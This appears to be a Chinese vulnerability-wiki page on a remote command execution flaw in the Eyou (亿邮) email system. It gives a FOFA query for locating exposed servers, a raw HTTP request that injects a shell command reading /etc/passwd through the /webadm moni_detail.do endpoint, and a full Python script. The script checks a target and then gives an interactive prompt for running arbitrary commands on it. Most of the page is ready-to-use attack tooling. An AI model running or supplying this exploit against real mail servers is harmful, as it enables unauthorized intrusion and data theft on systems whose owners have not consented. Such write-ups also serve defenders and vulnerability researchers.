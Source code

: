 # 亿邮电子邮件系统 远程命令执行漏洞

## 漏洞描述

亿邮电子邮件系统 存在远程命令执行漏洞，攻击者可以执行任意命令

## 漏洞影响

> [!NOTE]
>
> 亿邮电子邮件系统

## FOFA

> [!NOTE]
>
> body="亿邮电子邮件系统"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/ty-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

漏洞请求包如下

```
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 39
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36

type='|cat /etc/passwd||'
```

![](http://wikioss.peiqi.tech/vuln/ty-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Eyou Email SYSTEM                                       \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCmd         >>> whoami                                            \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, cmd):
    vuln_url = target_url + "/webadm/?q=moni_detail.do&action=gragh"
    headers = {
            "Content-Type": "application/x-www-form-urlencoded"
    }
    data = "type='|cat /etc/passwd||'"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}//webadm/?q=moni_detail.do&action=gragh \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功执行 cat /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                cmd = input("\033[35mCmd >>> \033[0m")
                if cmd == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, cmd)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, cmd):
    vuln_url = target_url + "/webadm/?q=moni_detail.do&action=gragh"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = "type='|{}||'".format(cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    cmd = 'cat /etc/passwd'
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url, cmd)

```

## Goby & POC

> [!NOTE]
>
> Eyou Mail system RCE

![](http://wikioss.peiqi.tech/vuln/ty-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)